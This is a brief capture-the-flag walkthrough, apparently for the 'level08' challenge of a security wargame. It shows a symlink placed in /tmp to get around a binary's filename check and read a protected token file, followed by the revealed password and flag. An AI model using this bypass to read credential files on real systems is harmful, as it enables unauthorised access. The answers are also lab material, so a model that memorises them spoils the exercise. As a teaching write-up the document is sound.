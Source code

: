 # level08

- If we try to open token with level08 we have an error
    > You may not access 'token'

- The level08 binary test the filename so we do `$ ln -s /home/user/level08/token /tmp/lol`

- `$ ./level08 /tmp/lol`
    > quif5eloekouj29ke0vouxean

- `$ su flag08` and `$ getflag`
    > Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f

